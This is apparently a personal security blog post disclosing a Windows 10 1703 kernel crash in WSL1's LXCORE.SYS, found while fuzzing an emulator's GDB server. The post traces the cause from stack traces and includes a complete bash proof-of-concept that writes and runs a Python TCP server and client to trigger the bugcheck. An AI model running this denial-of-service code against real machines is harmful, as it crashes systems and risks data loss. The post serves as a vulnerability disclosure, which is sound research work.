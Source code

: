 ```yaml
---
id: 438
title: 'Babesia – Windows 10 1703 DoS in lxcore'
date: '2020-01-10T20:04:36+01:00'
author: Martin
layout: post
guid: 'https://www.sundhaug.com/?p=438'
permalink: /w10-1703-bugcheck-in-lxcore/
categories:
    - Hacking
---
```


## Timeline

```
<pre class="wp-block-preformatted">Found at or before May 2nd, 2017
Reported May 2nd~3rd, 2017
Fixed in 10.0.15063.XXX 2017-XX-XX
```

## Demo

{% youtube i99ut6KgdvQ %}
## Story

Years ago, while trying to fuzz the GDB-server-implementation in the Nintendo® Game Boy Advance-emulator VBA-M (Visual-Boy Advance), I came upon a few issues. For one, fuzzing on Windows 10, my primary operating-system, was not as easy as I’d like it to. Now this was a fairly easy problem to solve, as Microsoft had just a few months before released their first stable release of the Windows Subsystem for Linux (IIRC, still called Bash on Windows at the time). The second issue, was that I couldn’t find an appropriate protocol-fuzzer for GDB. This required a bit more work, requiring me to write one myself in python. GDB treats a TCP-connection as a serial-port, meaning it reuses the GDB serial-protocol. The GDB serial-protocol is reasonably well documented, so this didn’t pose too many additional hours. Then, there was the big issue: My computer crashing.

<figure class="wp-block-image size-large">![In Norwegian: "Your PC ran into a problem and needs to restart. We're just collecting some error info, and then we'll restart for you.
...
Stop-code SYSTEM_THREAD_EXCEPTION_NOT_HANDLED
What failed: LXCORE.SYS"](https://i0.wp.com/www.sundhaug.com/wp-content/uploads/2020/01/image.png?resize=525%2C386&ssl=1)<figcaption>Picture of the bugcheck</figcaption></figure>A bugcheck, or Blue Screen Of Death, is triggered whenever the Windows kernel detects an error. VBA-M runs in user-mode, as does GDB, as does my python-based fuzzer. Nothing in user-mode should be able to cause a kernel crash and if it does, that’s a bug, and a potential security-issue.

So, now the questions become what’s triggered, where is it triggered, and how is it triggered.

Now, the first clue is in the bugcheck itself, on the bottom-most line: “LXCORE.SYS”. LXCORE.SYS, which was previously known as dates back to Microsofts Project Astoria, and is the core kernel-component of WSL1 (As the name suggests). So now we know what kernel-module is failing, and it’s not too surprising that it is the (then) relatively new WSL1.

The second clue? Well it happens when VBA-M has its GDB-server enabled, but not when it isn’t. Third, when the bugcheck is triggered, Windows writes a memory-dump to the C:\\-drive. The memory-dump includes everything that’s needed to find out what went wrong, including the stack-trace. The stack-trace, or the call-stack if you will, includes references to functions like: “LxpSocketInetStreamShutdownInternal”, “LxpSocketInetStreamFileReleaseInternal”, and “LxpSocketInetStreamAcceptWorkerRoutine”. These functions have a few words in common, such as “Lxp” (possibly LinuX Pico), “Inet” (indicating IP), and “Stream” (in context, TCP). The word “Accept” indicates that it likely has to do with the server accepting a connection.

## Exploit

Now, to test the hypothesis, we need to create the most basic possible “server”, and associated client. To accept a TCP-connection, you need to do three syscalls in a \*nix-system:

1. You need to bind the socket to a port
2. You need to listen on that socket
3. You need to accept the connection

When you do this, and have a client send data early, you end up with a bugcheck. Yay for crashing the PC.

The below exploit is very simple, it’s just a bash-program (with some flare of course), that writes a python client and a python server to disk, then runs both of them for a few seconds (assuming that if the bug is triggered, it’s relatively fast). If the program completes running for more than 1 minute, it’s assumed that the bugcheck has been fixed.

<div class="wp-block-syntaxhighlighter-code ">```
<pre class="brush: bash; title: ; notranslate" title="">
#!/bin/bash
function typewriter
{
    text="$1"
    for i in $(seq 0 $(expr length "${text}")) ; do
        echo -n "${text:$i:1}"
        sleep 0.003
    done
}

function hackify
{
    echo -e "\033[38;2;0;250;0m"
    echo -e "\033[48;2;0;000;0m"
}

typewriter "[ * ] Hackifying terminal"
for i in $(seq 3); do
    echo -n .
    sleep .3
done
hackify
clear
typewriter "[ * ] Terminal hackified"
sleep 1
clear

typewriter "|----------------------------------------|";echo
typewriter "|                                        |";echo
typewriter "|                Babesia                 |";echo
typewriter "|                                        |";echo
typewriter "|             by @sundhaug92             |";echo
typewriter "|                                        |";echo
typewriter "|----------------------------------------|";echo

echo
echo  3
echo "
import socket
import time
s = socket.socket()
s.bind(('0.0.0.0', 55555))
s.listen(1)
s.accept()
while True: time.sleep(1)" > server.py
sleep 1
echo 2
echo -e "
import socket
r = []
while True:
    s = socket.socket()
    s.connect(('localhost', 55555))
    s.send(b'A')
    r.append(s)" > client.py
sleep 1

echo 1
python server.py &
server_pid=$!
sleep 1

python3 client.py &
client_pid=$!
sleep 1
echo IMPACT

for i in $(seq 60); do
    echo -n .
    sleep 1
done

clear

typewriter "https://www.youtube.com/watch?v=w1--BxLy3lg#t=1m39s";echo
typewriter "^ We're still here'";echo
echo
typewriter "killing child-processes"
kill -9 $server_pid $client_pid
```

</div>The exploit is named after Babesia, which is a single-cell parasite.